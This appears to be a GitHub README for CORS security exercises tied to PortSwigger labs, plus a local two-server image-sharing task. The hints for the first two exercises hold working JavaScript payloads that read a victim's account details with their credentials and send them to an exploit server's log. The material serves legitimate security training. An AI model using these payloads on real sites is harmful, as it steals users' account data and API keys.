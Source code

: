 # Cross-Origin-Resource-Sharing
Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any origins (domain, scheme, or port) other than its own from which a browser should permit loading resources.

## Getting Started
PortSwigger account is required [PortSwigger](https://portswigger.net/users/register)  
Necessary tools: [Burt Suite](https://portswigger.net/burp/communitydownload)

## Exercise 1
CORS vulnerability with basic origin reflection
> [Exercise_1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

<details>
  <summary>Hint</summary>
    
    #This code may help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with your unique lab URL  
  
    <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
          location='/log?key='+this.responseText;
      };
    </script>
  
</details>

## Exercise 2
CORS vulnerability with trusted null origin  
> [Exercise_2](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)


<details>
  <summary>Hint</summary>  
    
    #This code may help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and $exploit-server-url with the exploit server URL  
  
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
      srcdoc="<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();
      function reqListener() {
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
      };
      </script>">
    </iframe>  
  
</details>

## Exercise 3
CORS gaining access to images  

### Preparations:
Download and decompress BAWIM.tar.gz and BAWIM2.tar.gz into folders BAWIM and BAWIM2  
BAWIM.tar.gz contains a webserver that displays some images.   
BAWIM2.tar.gz contains a webserver that get an image from BAWIM and displays them on its page.  
### Your task is to allow webserver BAWIM2 to access images from BAWIM.  
Run BAWIM on port 8000 (python3 manage.py runserver 8000) and BAWIM2 on port 8001 (python3 manage.py runserver 8001)
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i1.png?raw=true)
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i2.png?raw=true)

